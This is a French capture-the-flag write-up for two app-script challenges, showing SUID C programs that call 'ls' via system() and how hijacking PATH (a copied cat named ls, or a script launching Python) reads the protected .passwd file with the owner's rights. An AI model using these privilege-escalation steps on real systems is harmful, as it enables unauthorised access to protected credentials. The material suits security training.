 # PATH




symlink + SUID :

exemple:

Code source :
1. #include <stdlib.h>
2. #include <stdio.h>
3.  
4. /* gcc -m32 -o ch11 ch11.c */
5.  
6. int main(void) 
7. {
8.         system("ls /challenge/app-script/ch11/.passwd"); 
9.         return 0;
10. }


En listant le répertoire on remarque qu’on possède l’attribute `s` sur l’exécutable `ch11`.
 Ce qui veut dire qu’on le lance avec les droits de l’owner, qui est  `app-script-ch11-cracked`, soit le même owner que le fichier `.passwd`.
app-script-ch11@challenge02:~$ ls -la
total 24
dr-xr-x---  2 app-script-ch11-cracked app-script-ch11         4096 Aug 11  2015 .
drwxr-xr-x 14 root                    root                    4096 Nov 17 21:47 ..
-r--r-----  1 app-script-ch11-cracked app-script-ch11-cracked   14 Feb  8  2012 .passwd
-r-sr-x---  1 app-script-ch11-cracked app-script-ch11         7160 Aug 11  2015 ch11
-r--r-----  1 app-script-ch11         app-script-ch11          153 Aug 11  2015 ch11.c

Afin d’exécuter `cat` à la place de `ls` il suffit de copier l’exécutable dans `/tmp`
app-script-ch11@challenge02:~$ cp /bin/cat /tmp/ls

puis de changer la valeur de la variable d’environnement `PATH`
app-script-ch11@challenge02:~$ PATH=/tmp
app-script-ch11@challenge02:~$ echo $PATH
/tmp

Donc lorsque on exécutera une nouvelle fois le fichier `ch11` il  lancera le programme `/tmp/ls` qui est une copie de `/bin/cat` et  affichera donc le mot de passe !
app-script-ch11@challenge02:~$ ./ch11
!oPe[... flag snipped ...]5




Pareil mais avec des arguments:


1. #include <stdlib.h>
2. #include <stdio.h>
3.  
4. int main(){
5.         system("ls -lA /challenge/app-script/ch12/.passwd");
6.         return 0;
7. }

mkdir -p /tmp/myself
vim /tmp/myself/ls

Le contenu du script ls ne contient que ceci : (le - final est  important, c’est lui qui permet de ne pas tenir compte des arguments)
#! /usr/bin/python -

On termine de remplacer ls par ce qu’on veut :
chmod +x /tmp/myself/ls
export PATH=/tmp/myself/:$PATH

On lance l’attaque :
./ch12

Ca nous ouvre un interpréteur python avec les droits de ch12 et là on fait ce qu’on veut... par exemple :
>>> target = "/challenge/app-script/ch12/.passwd"
>>> with open(target) as f:
...         print(f.read())
...
<flag>
>>>


